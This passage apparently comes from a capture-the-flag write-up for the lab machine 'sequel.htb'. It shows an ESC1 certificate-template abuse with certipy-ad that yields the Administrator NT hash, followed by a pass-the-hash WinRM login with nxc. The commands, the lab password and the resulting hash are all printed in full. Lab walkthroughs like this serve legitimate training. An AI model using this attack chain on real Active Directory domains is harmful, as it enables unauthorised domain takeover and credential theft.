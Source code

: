 after which we can request the certificate exploiting ESC1:

```bash
$certipy-ad req -u ca_svc -p w1ldP@ssword2022 -target sequel.htb -dns sequel.htb -ca sequel-dc01-ca -upn Administrator -template DunderMifflinAuthentication
```

and authenticate to gather hashes:

```bash
$certipy-ad auth -pfx administrator_sequel.pfx -username Administrator -domain sequel.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'Administrator'
    [1] DNS Host Name: 'sequel.htb'
> 0
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```

## Administrator

using the hash I can login as the administrator!

```bash
$nxc winrm sequel.htb -u Administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
WINRM       10.129.2.95     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.2.95     5985   DC01             [+] sequel.htb\Administrator:7a8d4e04986afa8ed4060f75e5a0b3ff (Pwn3d!)
```

Just like that we have root!